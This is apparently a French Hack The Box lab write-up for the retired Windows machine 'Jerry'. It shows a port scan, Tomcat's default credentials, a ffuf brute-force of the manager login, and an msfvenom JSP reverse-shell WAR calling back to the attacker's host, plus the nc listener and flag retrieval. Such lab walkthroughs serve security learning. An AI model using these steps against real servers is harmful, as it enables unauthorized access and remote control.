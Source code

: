 Nouvelle box windows (retirée) easy : Jerry.

COmme d'habitude, nous commençons par scanner les ports les plus courant 
```sh
sudo nmap -sV -sC -p- -oA jerry 10.10.10.95
<SNIP>
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
<SNIP>
```

On remarque qu'il n'y a qu'un seul port d'ouvert, le 8080, un port HTTP pour le service Apache Tomcat, un webserver.

SI on va sur la page http:// 10.10.10.95:8080, on a simplement la page de base de tomcat.


![j1](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/Jerry1.PNG)

En essayant d'aller sur l'onglet, Manager App, on nous demande un mot de passe.

On essaye n'importe quoi et on se retrouve avec une erreur 401.


Cette erreur 401 nous retourne une page, et nous dit que pour accéder à la page, on peut mettre tel user et tel mot de passe :

![j1](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry2.PNG)

On essaye donc "tomcat" et "s3cret". Et on tombe sur la page d'administration (!!).

![j3](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry3.PNG)

On peut tenter également d'arriver différemment sur cette page, car lorsqu'on ouvre les échanges réseaux de la fenpetre dév de firefox par exemple, on voit que les crédits d'autorisation sont sous encodé en base64 :

![j4](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry4.PNG)

```sh
echo dG9tY2F0OnMzY3JldA== | base64 -d
tomcat:s3cret
```

On peut donc tenter de brute-force ce champ, avec une liste de user:mdp, grâce à la fabuleuse Seclist :

```
ffuf -w ~/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt:FUZZ -u http://10.10.10.95:8080/manager/html -H 'Authorization: Basic FUZZ' | grep 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.95:8080/manager/html
 :: Wordlist         : FUZZ: /home/kali/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt
 :: Header           : Authorization: Basic FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

dG9tY2F0OnMzY3JldA==    [Status: 200, Size: 17035, Words: 1119, Lines: 380, Duration: 219ms]
dG9tY2F0OnMzY3JldA==    [Status: 200, Size: 17035, Words: 1119, Lines: 380, Duration: 238ms]
:: Progress: [79/79] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/HTB/Jerry]
└─$ echo dG9tY2F0OnMzY3JldA== | base64 -d
tomcat:s3cret                                                                      
```

On voit qu'on peut upload des fichier war. Grâce au générateur de payload de metasploit, msfvenom, on peut générer un shell inversé :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.2 LPORT=4242 -f war -o payload.war
```


Ensuite on prépare un netcat afin d'écouter les connexions entrantes sur le port 4242 :

```sh
nc -lnvp 4242
```

On upload le fichier, on clique dessus :

![j5](https://github.com/0xbatche/HTB/blob/a0e8e5661bac95047397e546ab8dcd0e59a29146/boxes/imgs/jerry5.PNG)


Et on accès à la machine windows. En cherchant, on trouve un dossier des flags sur le Bureau de l'administrateur (on est déjà admin) :

```powershell
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
<SNIP>

root.txt
<SNIP>
C:\Users\Administrator\Desktop\flags>
```

## Conclusion :

Je ne connais pas bien encore les serveurs windows et la façon de les pénétrer, mais cette box, à la fois similaire dans l'approche "web" qu'une machine linux, et extrêmement simple sur le côté "windows", permet de doucement commencer à comprendre un peu mieux comment ça fonctionne.

D'autres approches plus complexes, comme celle Ippsec sur youtube (et qui ne sera pas détaillée ici), sont aussi de très bons moyens de découvrir toutes les faces d'un même challenge et d'améliorer ses process d'approche et d'exécution.

C'est une nécessité, tant windows est courant, que ce soit pour le côté administration ou, comme on vient de le voir, les tests de pénétration.


